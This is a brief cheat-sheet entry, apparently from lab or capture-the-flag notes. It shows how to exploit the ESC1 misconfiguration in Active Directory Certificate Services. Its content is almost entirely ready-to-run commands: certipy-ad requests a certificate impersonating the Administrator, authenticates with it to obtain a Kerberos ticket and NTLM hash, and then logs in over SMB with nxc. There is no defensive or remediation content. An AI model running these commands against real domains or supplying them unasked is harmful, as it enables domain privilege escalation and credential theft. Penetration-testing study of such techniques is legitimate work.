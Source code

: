___
### ESC1
If a template is vulnerable to ESC1, certipy can automatically exploit it.
Request the Administrators certificate:
```bash
certipy-ad req -u <user> -p <password> -dc-ip <IP> -template <Template Name> -upn Administrator@certified.htb -ca <Certificate Authorities> -target dc.domain.local
```
Request TGS & NTLM hash with certificate:
```bash
certipy-ad auth -pfx administrator.pfx -dc-ip <IP>
```
Or with NXC:
```bash
nxc smb <IP> --pfx-cert administrator.pfx -u 'Administrator'
```
